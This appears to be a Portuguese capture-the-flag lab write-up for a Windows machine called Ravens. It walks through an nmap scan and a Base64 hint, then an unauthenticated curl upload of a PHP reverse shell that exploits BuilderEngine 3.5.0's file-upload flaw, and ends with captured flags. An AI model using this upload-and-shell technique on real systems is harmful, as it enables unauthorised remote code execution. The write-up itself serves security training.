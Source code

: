 EHPT - Ravens

# EHPT - Ravens

## Enumeração

### Scan inicial

- Full NMAP scan TCP

```
dcruz@kali:/dcruz/ehpt/ravens/scan$ cat full.nmap 
# Nmap 7.80 scan initiated Sat Jun 20 00:00:16 2020 as: nmap -p80,135,139,443,445,3306,3389,7680,49664,49665,49666,49667,49669,49670,49671 -A -Pn -oA full 10.0.0.11
Nmap scan report for 10.0.0.11
Host is up (0.00034s latency).

PORT      STATE SERVICE            VERSION
80/tcp    open  http               Apache httpd 2.4.37 ((Win32) OpenSSL/1.0.2p PHP/5.6.40)
|_http-server-header: Apache/2.4.37 (Win32) OpenSSL/1.0.2p PHP/5.6.40
135/tcp   open  msrpc              Microsoft Windows RPC
139/tcp   open  netbios-ssn        Microsoft Windows netbios-ssn
443/tcp   open  ssl/http           Apache httpd 2.4.37 ((Win32) OpenSSL/1.0.2p PHP/5.6.40)
|_http-server-header: Apache/2.4.37 (Win32) OpenSSL/1.0.2p PHP/5.6.40
|_http-title: Bad request!
| ssl-cert: Subject: commonName=localhost
| Not valid before: 2009-11-10T23:48:47
|_Not valid after:  2019-11-08T23:48:47
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
445/tcp   open  microsoft-ds?
3306/tcp  open  mysql              MariaDB (unauthorized)
3389/tcp  open  ssl/ms-wbt-server?
|_ssl-date: 2020-06-20T03:01:37+00:00; +2s from scanner time.
7680/tcp  open  pando-pub?
49664/tcp open  msrpc              Microsoft Windows RPC
49665/tcp open  msrpc              Microsoft Windows RPC
49666/tcp open  msrpc              Microsoft Windows RPC
49667/tcp open  msrpc              Microsoft Windows RPC
49669/tcp open  msrpc              Microsoft Windows RPC
49670/tcp open  msrpc              Microsoft Windows RPC
49671/tcp open  msrpc              Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 1s, deviation: 0s, median: 1s
|_nbstat: NetBIOS name: nil, NetBIOS user: <unknown>, NetBIOS MAC: 00:15:5d:2a:16:31 (Microsoft)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2020-06-20T03:01:13
|_  start_date: 2020-06-20T01:38:19

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Jun 20 00:02:35 2020 -- 1 IP address (1 host up) scanned in 138.90 seconds
```


### 80/TCP - Website

- Ao navegar para a pagina inicial fui redirecionado para a página https://10.0.0.11/teste/index.php. Esta página contém uma imagem e o seguinte código fonte

```html
<html>
<head><title>Teste PHP</title></head>
<body>
    <p>Olá Jovem </p> <img src="bino.png" alt="some text" width=800 height=600>
    <p>Muitas vezes uma porta leva a varios lugares, precisamos olhar com calma
    <p><p>muitas vezes usar de força bruta
    <p><p>
    <p><p>a
    <p><p>a
    <p><p> a
    <p><p>a
    <p><p> a
    <p><p>a
    <p><p>a
    <p><p>a
    <p><p>a
    <p><p>YnVpbGQvcGFnZS1jb2VsaG8tYnJhbmNvLW5lby5odG1s
    <p>
</body>
</html>
```

- Inspecionando o texto **YnVpbGQvcGFnZS1jb2VsaG8tYnJhbmNvLW5lby5odG1s**  não foi possível detectar nenhum tipo formato hash, porém verificando como algum conteúdo codificado, identificado que se trata de um **Base64** que foi decodificado, confome abaixo

```
dcruz@kali:/dcruz/ehpt/homelander/exploit$ echo -n 'YnVpbGQvcGFnZS1jb2VsaG8tYnJhbmNvLW5lby5odG1s' | base64 -d
build/page-coelho-branco-neo.html
```

- Acessando a página informada identificado que se tratava de um site criado com BuilderEngine.

## Exploração

- Verificando no searchsploit o produto utilizado para criar o site, encontrado uma vulnerabilidade de File Upload

```
dcruz@kali:/dcruz/ehpt/homelander$ searchsploit builderengine
---------------------------------------------------------------------- ---------------------------------
  Exploit Title                                                        |  Path
---------------------------------------------------------------------- ---------------------------------
BuilderEngine 3.5.0 - Arbitrary File Upload                           | php/webapps/40390.php
BuilderEngine 3.5.0 - Arbitrary File Upload and Execution (Metasploit | php/remote/42025.rb
---------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

- Com base no que foi informado nos arquivos é possivel fazer o upload de um arquivo qualquer sem necessidade de se autenticar. feito isso utilizado um shell reverso PHP para Windows, conforme enumeração inicial executada e foi possível obter um shell reverso, através da execução da linha de comando abaixo, onde o arquivo a ser carregado já possui os apontamentos de endereço IP para upload

```bash
curl -F 'files=@/dcruz/ehpt/homelander/exploit/shell.php' http://10.0.0.14/build/themes/dashboard/assets/plugins/jquery-file-upload/server/php/

```

- Ao navegar ao site, foi obtido o shell reverso na maquina, possibilitando obter a flag de user e root

```
c:\Users\Administrator\Desktop>type admin.txt
type admin.txt
8be5044c51b1b9b37f50b33c7f4433           
```

```
c:\Users\Eric Draven\Desktop>type user.txt
type user.txt
891b3a9ba0e97072aefa681132f933fd
```